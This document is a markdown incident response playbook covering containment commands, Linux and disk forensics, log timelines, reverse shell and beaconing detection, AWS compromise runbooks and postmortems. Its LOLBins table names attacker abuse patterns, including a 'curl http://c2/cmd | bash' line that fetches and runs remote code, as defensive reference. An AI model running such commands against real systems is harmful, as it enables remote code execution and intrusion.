







# Incident Response

> Structured playbook for detecting, containing, and recovering from security incidents — covering forensics, IOC analysis, cloud IR, and post-incident review.

---

## 1. IR Lifecycle



| Phase | Goal | Time Target |
|-------|------|-------------|
| Preparation | Playbooks, tools, contacts, detection infra | Ongoing |
| Detection | Identify and triage the incident | < 24 h from event |
| Containment | Stop spread, preserve evidence | 1–4 h after declaration |
| Eradication | Remove attacker foothold, patch vector | 4–24 h |
| Recovery | Restore services, verify clean state | 1–7 days |
| Lessons Learned | Postmortem, RCA, process updates | ≤ 2 weeks after close |

**Preparation checklist:**
- Incident response plan (IRP) documented and tested
- Out-of-band communication channel (Signal / Slack war-room)
- Asset inventory and criticality classification
- Pre-positioned forensic toolkit (Volatility, dd, tcpdump, osquery)
- Contact list: legal, PR, cloud support, law enforcement liaison

---

## 2. Detection Sources



### Anomaly Detection — Z-Score

```
z = (x - μ) / σ

x  = observed value (e.g. bytes sent in 1 min)
μ  = rolling mean over baseline window
σ  = rolling standard deviation

Alert threshold: |z| > 3  (covers 99.7% of normal distribution)
```

| Source | Signal Type | Latency |
|--------|-------------|---------|
| IDS/IPS | Signature / protocol anomaly | Real-time |
| SIEM | Multi-source correlation (failed logins + new process) | 1–5 min |
| GuardDuty | ML on CloudTrail / VPC Flow / DNS logs | 5–15 min |
| Anomaly detection | Statistical deviation on metrics | 1–10 min |
| Honeypot | Any access to decoy asset | Real-time |

---

## 3. Containment Decision Tree



### Isolation Commands

```bash
# Linux — drop all traffic except management
iptables -I INPUT  1 -s <MGMT_IP> -j ACCEPT
iptables -I OUTPUT 1 -d <MGMT_IP> -j ACCEPT
iptables -A INPUT  -j DROP
iptables -A OUTPUT -j DROP

# Kubernetes — deny-all NetworkPolicy
kubectl apply -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: isolate
  namespace: compromised-ns
spec:
  podSelector: {}
  policyTypes: [Ingress, Egress]
EOF

# AWS — replace SG with deny-all
aws ec2 revoke-security-group-ingress --group-id sg-xxx --ip-permissions \
  '[{"IpProtocol":"-1","IpRanges":[{"CidrIp":"0.0.0.0/0"}]}]'
```

---

## 4. Forensics Basics

### Order of Volatility

Always capture the most volatile first — it disappears on reboot or context switch.



| Order | Source | Lifetime | Tool |
|-------|--------|----------|------|
| 1 | CPU registers / cache | Nanoseconds | Live memory dump |
| 2 | RAM | Until power-off | LiME, /proc |
| 3 | Disk cache / swap | Until flush | dd, strings |
| 4 | Disk (filesystem) | Until overwrite | dd, FTK |
| 5 | Remote logs | Retention policy | CloudTrail, SIEM |

### Memory Forensics — Linux

```bash
# List memory mappings for a suspicious process (PID=1234)
cat /proc/1234/maps

# Show command line used to launch the process
cat /proc/1234/cmdline | tr '\0' ' '

# Show environment variables
cat /proc/1234/environ | tr '\0' '<br>'

# Open TCP connections (inode → PID via /proc/net/tcp)
cat /proc/net/tcp          # hex local/remote addr + inode
ss -tnp                    # human-readable with PID

# Dump process memory
gcore -o dump 1234         # via gdb
# or with LiME kernel module (full RAM)
insmod lime.ko "path=/mnt/usb/ram.lime format=lime"
```

### Disk Imaging

```bash
# Image full disk — preserve chain of custody
dd if=/dev/sda of=/mnt/evidence/image.dd bs=4M status=progress

# Hash immediately after (chain of custody)
sha256sum /mnt/evidence/image.dd | tee /mnt/evidence/image.dd.sha256

# Verify integrity later
sha256sum -c /mnt/evidence/image.dd.sha256

# Mount read-only for analysis
mount -o ro,loop,noatime /mnt/evidence/image.dd /mnt/analysis
```

> **Chain of custody**: record who imaged, when, on what hardware, hash value, and transfer log. Any break invalidates forensic admissibility.

---

## 5. Log Analysis — Breach Timeline



| Phase | Key Log Sources | What to Look For |
|-------|-----------------|-----------------|
| Initial access | `/var/log/auth.log`, CloudTrail `ConsoleLogin` | Brute force, new geo IP, off-hours login |
| Lateral movement | VPC Flow Logs, Windows Event 4625/4624 | Internal scanning, new SMB/RDP connections |
| Privilege escalation | `/var/log/secure`, auditd `EXECVE` | `sudo`, `su`, SUID binary execution |
| Persistence | crontab, `/etc/rc.local`, systemd units, registry Run keys | New scheduled tasks, unknown services |
| Data exfiltration | DNS logs, proxy logs, S3 access logs | Large outbound transfers, DNS tunneling |

### Building a Timeline

```bash
# Correlate auth events with process execution
grep 'Accepted\|Failed' /var/log/auth.log | awk '{print $1,$2,$3,$9,$11}'

# auditd — find all commands run by uid 1001
ausearch -ua 1001 --start today | aureport -x

# Find files modified in a time window (breach window)
find / -newermt "2026-06-10 00:00" ! -newermt "2026-06-12 00:00" \
  -type f -not -path '/proc/*' 2>/dev/null
```

---

## 6. Indicators of Compromise (IOCs)

### Reverse Shell Detection

A reverse shell initiates an **outbound** connection from victim to attacker — bypasses inbound firewall rules.

```
Victim --[TCP outbound]--> Attacker:4444
Attacker sends shell commands back over the same socket
```

```bash
# Detect unusual outbound connections on high ports
ss -tnp | awk '$4 !~ /:22|:443|:80/ && $5 !~ /^127/ {print}'

# Processes with stdin/stdout pointing to a socket
ls -la /proc/*/fd | grep socket | head -20

# netstat alternative
netstat -tnp 2>/dev/null | grep ESTABLISHED | \
  awk '$4 !~ /:22$|:443$|:80$/ {print}'
```

### Beaconing Detection

Beaconing = C2 check-in at fixed interval ± small jitter (to evade naive detection).

```
inter-arrival times: [60.1, 59.8, 60.3, 60.0, 59.9, ...]

Detection metric: variance of inter-arrival times
  - Legitimate traffic: high variance
  - Beaconing: very low variance (≈ 0)

Threshold: Var(Δt) < 2 seconds² → flag as potential beacon
```

```bash
# Extract connection timestamps to a suspicious IP and compute deltas
tcpdump -nn -r capture.pcap 'dst host 1.2.3.4' | \
  awk '{print $1}' | \
  awk 'NR>1{printf "%.3f<br>", $1-prev} {prev=$1}'
# Pipe to python: import statistics; print(statistics.variance(deltas))
```

### LOLBins (Living Off the Land)

Attackers use legitimate system binaries to avoid AV/EDR detection.

| Binary | Legitimate Use | C2 Abuse |
|--------|---------------|----------|
| `curl` | Download files | `curl http://c2/cmd | bash` |
| `wget` | Download files | Stage malware |
| `python3` | Scripting | Reverse shell, dropper |
| `bash -i` | Interactive shell | Reverse shell |
| `nc` / `ncat` | Network testing | Bind/reverse shell |
| `crontab` | Scheduling | Persistence |
| `base64` | Encoding | Obfuscate payload |

```bash
# auditd rule — alert on curl/wget spawned by non-root non-interactive
auditctl -a always,exit -F arch=b64 -S execve \
  -F exe=/usr/bin/curl -F auid>=1000 -k lolbin_curl

# Find processes that opened a network socket and have no tty
for pid in /proc/[0-9]*/; do
  p=${pid%/}; p=${p##*/}
  [ -e "$pid/fd/0" ] || continue
  sock=$(ls -la $pid/fd/ 2>/dev/null | grep socket | wc -l)
  tty=$(cat $pid/stat 2>/dev/null | awk '{print $7}')
  [ "$sock" -gt 0 ] && [ "$tty" -eq 0 ] && \
    echo "PID $p: $(cat $pid/cmdline | tr '\0' ' ')"
done
```

---

## 7. Cloud-Specific IR — AWS

### EC2 Compromise Runbook



### Step-by-Step Commands

```bash
INSTANCE_ID="i-0abc123def456"
REGION="us-east-1"

# 1. Snapshot all EBS volumes (forensic copy — do BEFORE isolation)
VOLUMES=$(aws ec2 describe-instances --instance-ids $INSTANCE_ID \
  --query 'Reservations[].Instances[].BlockDeviceMappings[].Ebs.VolumeId' \
  --output text --region $REGION)

for vol in $VOLUMES; do
  aws ec2 create-snapshot --volume-id $vol \
    --description "IR-forensic-$(date +%Y%m%d)" \
    --tag-specifications "ResourceType=snapshot,Tags=[{Key=Purpose,Value=IR}]" \
    --region $REGION
done

# 2. Create deny-all SG and attach
SG_ID=$(aws ec2 create-security-group \
  --group-name ir-isolate-$(date +%s) \
  --description "IR isolation — deny all" \
  --vpc-id vpc-xxx --region $REGION \
  --query GroupId --output text)

aws ec2 modify-instance-attribute --instance-id $INSTANCE_ID \
  --groups $SG_ID --region $REGION

# 3. Revoke IAM role credentials (force re-assume)
ROLE=$(aws ec2 describe-iam-instance-profile-associations \
  --filters "Name=instance-id,Values=$INSTANCE_ID" \
  --query 'IamInstanceProfileAssociations[0].IamInstanceProfile.Arn' \
  --output text --region $REGION)
# Attach deny-all inline policy to the role
aws iam put-role-policy --role-name "${ROLE##*/role/}" \
  --policy-name IR-DenyAll \
  --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Deny","Action":"*","Resource":"*"}]}'

# 4. CloudTrail — blast radius (last 24h API calls from instance role)
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=ResourceName,AttributeValue=$INSTANCE_ID \
  --start-time $(date -u -v-24H +%Y-%m-%dT%H:%M:%SZ 2>/dev/null || \
                 date -u -d '24 hours ago' +%Y-%m-%dT%H:%M:%SZ) \
  --region $REGION --output json | jq '.Events[].CloudTrailEvent' | \
  python3 -c "import sys,json; [print(json.loads(l).get('eventName','')) for l in sys.stdin]" | sort | uniq -c | sort -rn
```

### IAM Key Compromise

```bash
# Immediately deactivate exposed key
aws iam update-access-key \
  --access-key-id AKIA... \
  --status Inactive \
  --user-name compromised-user

# List all keys for the user
aws iam list-access-keys --user-name compromised-user

# Attach deny-all policy to user as well
aws iam put-user-policy --user-name compromised-user \
  --policy-name IR-Lockout \
  --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Deny","Action":"*","Resource":"*"}]}'

# Check what the key did (CloudTrail)
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=AccessKeyId,AttributeValue=AKIA... \
  --region $REGION
```

### GuardDuty Finding → Action Map

| Finding Type | Immediate Action |
|-------------|-----------------|
| `UnauthorizedAccess:EC2/SSHBruteForce` | Block source IP in NACL |
| `Backdoor:EC2/C&CActivity.B` | Isolate EC2, snapshot EBS |
| `CredentialAccess:IAMUser/AnomalousBehavior` | Deactivate IAM key |
| `Exfiltration:S3/ObjectRead.Unusual` | Revoke S3 permissions, check bucket policy |
| `Persistence:IAMUser/UserPermissions` | Audit IAM changes, check new users/roles |

---

## 8. Post-Incident

### Blameless Postmortem Structure

```
Title:    [SERVICE] Incident — [DATE]
Severity: P1 / P2 / P3
Duration: HH:MM  (detection → resolution)

## Summary
One paragraph: what happened, impact, resolution.

## Timeline (UTC)
HH:MM  — first anomaly
HH:MM  — alert fired
HH:MM  — incident declared
HH:MM  — containment complete
HH:MM  — eradication complete
HH:MM  — service restored

## Root Cause
What failed and why (not who).

## 5-Whys RCA
Why 1: [symptom]
Why 2: [because...]
Why 3: [because...]
Why 4: [because...]
Why 5: [root cause]

## Impact
- Users affected: N
- Data exposed: yes/no, scope
- SLA breach: yes/no

## What Went Well
- [item]

## What Went Poorly
- [item]

## Action Items
| Action | Owner | Due |
|--------|-------|-----|
| [fix]  | @name | date |
```

### MTTD / MTTR Metrics

```
MTTD = Mean Time to Detect
     = mean(t_detect - t_breach)   across incidents

MTTR = Mean Time to Respond/Recover
     = mean(t_resolved - t_detect)

Industry benchmarks (IBM Cost of a Data Breach Report):
  MTTD: ~194 days  (breaches often undetected for months)
  MTTR: ~73 days   (after detection)
  Total lifecycle: ~277 days

Target (mature security program):
  MTTD: < 1 day    (with EDR + SIEM)
  MTTR: < 4 hours  (for P1 incidents)
```

```python
from statistics import mean
from datetime import datetime

incidents = [
    {"breach": "2026-01-01T00:00", "detected": "2026-01-15T08:00", "resolved": "2026-01-15T12:00"},
    {"breach": "2026-02-10T00:00", "detected": "2026-02-11T04:00", "resolved": "2026-02-11T10:00"},
]

fmt = "%Y-%m-%dT%H:%M"
mttd_hours = mean(
    (datetime.fromisoformat(i["detected"]) - datetime.fromisoformat(i["breach"])).total_seconds() / 3600
    for i in incidents
)
mttr_hours = mean(
    (datetime.fromisoformat(i["resolved"]) - datetime.fromisoformat(i["detected"])).total_seconds() / 3600
    for i in incidents
)
print(f"MTTD: {mttd_hours:.1f} h  |  MTTR: {mttr_hours:.1f} h")
```

### Improvement Feedback Loop



---

## Quick Reference

| Phase | Key Action | Command / Tool |
|-------|-----------|----------------|
| Detection | SIEM correlation | Splunk / OpenSearch |
| Detection | Statistical anomaly | z-score > 3σ |
| Containment | Isolate EC2 | `aws ec2 modify-instance-attribute --groups <deny-sg>` |
| Containment | K8s isolate | `kubectl apply -f deny-all-netpol.yaml` |
| Forensics | Memory dump | `LiME`, `/proc/PID/maps` |
| Forensics | Disk image | `dd if=/dev/sda of=img.dd bs=4M` |
| Forensics | Chain of custody | `sha256sum img.dd > img.dd.sha256` |
| IOC | Reverse shell | `ss -tnp` outbound high port |
| IOC | Beaconing | `Var(Δt) < 2s²` |
| IOC | LOLBins | `auditctl -S execve -F exe=/usr/bin/curl` |
| Cloud IR | Snapshot EBS | `aws ec2 create-snapshot --volume-id vol-xxx` |
| Cloud IR | Revoke creds | `aws iam update-access-key --status Inactive` |
| Cloud IR | Blast radius | `aws cloudtrail lookup-events` |
| Post-incident | MTTD | `mean(t_detect - t_breach)` — target < 24 h |
| Post-incident | MTTR | `mean(t_resolve - t_detect)` — target < 4 h |
